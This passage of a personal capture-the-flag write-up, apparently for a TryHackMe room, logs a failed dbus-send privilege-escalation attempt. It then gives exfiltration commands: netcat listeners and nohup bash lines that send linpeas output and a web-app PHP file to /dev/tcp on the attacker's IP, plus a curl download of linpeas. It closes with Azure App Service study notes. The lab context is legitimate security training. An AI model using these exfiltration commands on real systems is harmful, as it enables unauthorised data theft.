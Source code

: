 Timing initially was 0.221s
![](testthetimingofdbussend.png)

Retesting the timing after failed attempt as the execution was much fast the second test
![](retestingtiming.png)

0.004 seconds!
![](newusercreated.png)
But no user gets created, I tried at various increments but all failed.

#### Exfiltration

Linpeas back to your machine for data collection fanatics like myself
```bash
# Your machine
nc -lvnp 6969 > linpeas-www-data.out
# Traverse
curl $yourserver:$port/linpea.sh -o linpeas.sh
chmod +x linpeas.sh
# Background a job to not lose our shell in the process of sending stdout from linpeas to /dev/tcp/yourIP/6969 - nice..
nohup bash -c 'linpeas.sh 1> /dev/tcp/$YOURIP/6969' &
```

![](sameshell.png)

Similarly for single files like the rename_file_manager.php
```bash
# Your machine
nc -lvnp 6969 > renamed_file_manager.php
# Traverse
nohup bash -c 'cat /var/www/html/realadmin/renamed_file_manager.php 1>/dev/tcp/$YOURIP/6969' &
```

Yes we could also do - but we would lose our shell if it does accept command keys - and we do not get all the files...
```bash
# Traverse
python3 -m http.server 8080
# Your machine
wget -r http://10.10.233.101/
```

#### Source Code Analysis

[Finish the THM Static Application Testing Room...](https://tryhackme.com/room/sast)
- Give I could not escalate privileges I decided to focus improving my tooling and notes as I could not get the full app and do a comparison

#### Azure Application Services and App Service Plan  

I am going for Azure exams soon so adding this here to justify doing the CTF even more...

- Create and configure Azure App Service
	- Provision an App Service plan
		- Requires a Resource group
	- Configure scaling for an App Service plan
		- add Autoscale for simplicity 
	- Create an App Service
		- Export the App Plan as an Azure Resource Manager (ARM) template
		- Manual or Automated
	- Configure certificates and TLS for an App Service reate a free App Service managed certificate
	- Map an existing custom DNS name to an App Service
		- `Search -> App Services -> Custom Domains`
	- Configure backup for an App Service
		- Standard or Premium tier App Service plan 
		- Full backup is default; partial backups are supported; 10 GB in size